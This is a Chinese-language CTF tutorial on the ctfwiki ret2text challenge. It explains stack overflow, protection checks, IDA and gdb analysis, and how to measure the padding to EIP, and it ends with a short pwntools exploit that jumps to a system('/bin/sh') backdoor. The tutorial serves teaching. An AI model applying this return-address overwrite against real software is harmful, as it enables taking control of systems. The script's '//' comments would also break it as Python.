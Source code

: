 <a name="4985b9c9"></a>
## 什么是栈溢出：

 栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变（比如gets函数，他不会去验证你输入的值的长度，通过这个函数，你可以往一个本身大小为4字节的数组中填入任意大小的数据，如果填入8字节的数据，将会导致栈溢出，进而程序报错）。就像是往杯子里倒水，水满了溢出来最后烫到你一样。<br />**最简单的栈溢出利用：ret2text**<br />通过栈溢出修改call指令保存在栈上的返回地址（eip的值），这样cpu执行ret指令的时候，就会将被修改的值从栈上取出放入eip寄存器中，紧接着执行eip所指向的位置的指令，这样就相当于控制了程序的执行流。

<a name="1c7c1fdd"></a>
## 例题：ctfwiki ret2text

<a name="e0958639"></a>
### 首先，cheaksec。

![](https://img-blog.csdnimg.cn/20210221152436742.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=Jqffs&originHeight=207&originWidth=939&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

32位小端序程序。<br />开启了堆栈不可执行保护（NX），即不会把堆栈上的数据当成指令来执行。<br />没有canary保护，可以利用栈溢出来修改eip。<br />PIE地址随机化没有开启。

<a name="394701f8"></a>
### ida分析

如果源码比较复杂，可以通过运行程序的方式来辅助理解程序。<br />main函数存在gets函数，即存在栈溢出漏洞。<br />![](https://img-blog.csdnimg.cn/20210221152459919.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=i9CBu&originHeight=243&originWidth=671&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

存在一个secure函数，函数内部调用了system（“/bin/sh”），即后门函数，程序中调用了该函数后可以获得一个shell。<br />![](https://img-blog.csdnimg.cn/2021022115252619.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=bl7Fd&originHeight=301&originWidth=531&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在ida视图下，可以看到system函数地址为0x0804863A<br />![](https://img-blog.csdnimg.cn/20210221152547541.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=P6OOl&originHeight=84&originWidth=872&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**思路：首先通过栈溢出填充垃圾数据，覆盖到eip之前，再填入system函数地址，即可获得shell。**

<a name="338d3986"></a>
### 如何确定栈溢出所需要的垃圾数据长度？

<a name="695c4042"></a>
#### 方式一：通过ida可以观察出来，但有时结果不太准确。

![](https://img-blog.csdnimg.cn/20210221152612188.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=Aif7O&originHeight=62&originWidth=514&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

上图显示0x64的大小即可覆盖到ebp，但却与动态调试的结果不同。（有时候动态调试结果也不太准确，一般以动态调试结果为准，也可以动态调试结果和ida结果分别尝试一次）

<a name="dadfa31f"></a>
#### 方式二：动态调试

在call函数处下断点，输入aaaa，<br />![](https://img-blog.csdnimg.cn/20210221152633913.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=TJAWb&originHeight=97&originWidth=509&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://img-blog.csdnimg.cn/20210221152656633.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=fUE7i&originHeight=122&originWidth=623&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

aaaa所在的地址为0xffffd24c，ebp为 0xffffd2b8，相减得0x6c，即覆盖0x6c个垃圾数据“a”即可到达ebp的位置。<br />![](https://img-blog.csdnimg.cn/20210221152728416.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=PNjWP&originHeight=439&originWidth=484&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

此时再覆盖4字节的垃圾数据“b”（32位程序为4字节，64位程序为8字节）：<br />![](https://img-blog.csdnimg.cn/20210221152751179.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=lYbtr&originHeight=421&originWidth=500&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

此时如果再往里输入数据，就可以修改eip的值，我们此时输入system函数的地址，即可完成利用。<br />在上述过程中，我们向程序输入了（0x6c+4）的垃圾数据。

<a name="dab1d734"></a>
##### 手算比较麻烦，还有一种小工具cyclic

首先输入cyclic 200：<br />![](https://img-blog.csdnimg.cn/20210221152834173.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=GW55J&originHeight=113&originWidth=1335&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

得到一组数据，将其复制下来，然后用gdb调试程序，输入r运行，运行之后将这段程序输入进去：<br />![](https://img-blog.csdnimg.cn/20210221152901923.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=s14eV&originHeight=166&originWidth=1336&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

之后程序报错：<br />![](https://img-blog.csdnimg.cn/20210221152924308.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=couL6&originHeight=114&originWidth=722&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

这说明我们输入的字符覆盖了eip，即字符“daab”，输入cyclic -l daab就能知道输入点到eip的距离，即【0x6c+4】的值：<br />![](https://img-blog.csdnimg.cn/20210221152949108.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=GAGuW&originHeight=95&originWidth=319&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

exp：

```python
from pwn import *  //引入pwntools模块
sh = process('./ret2text')//包含本地程序
#sh = remote('6.6.6.6',888)//包含6.6.6.6服务器的888端口的程序
target = 0x804863a//返回地址
sh.sendline('A' * (0x6c + 4) + p32(target))
//p32()表示将数据转换为32位系统下在内存中的存在方式
sh.interactive()//接收交互结果
```
